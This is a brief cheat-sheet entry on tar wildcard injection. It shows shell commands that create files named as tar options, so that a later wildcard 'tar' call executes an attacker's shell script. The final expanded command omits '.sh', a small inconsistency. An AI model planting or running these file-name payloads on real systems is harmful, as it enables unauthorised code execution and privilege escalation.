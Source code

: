 ## Tar

### Tar wildcard injection

```shell
# create files
touch "--checkpoint=1"
touch "--checkpoint-action=exec=sh shell.sh"

# then
tar -cf archive.tar *
# becomes, which executes the command specified in the second filename
tar -cf archive.tar --checkpoint=1 --checkpoint-action=exec=sh shell
```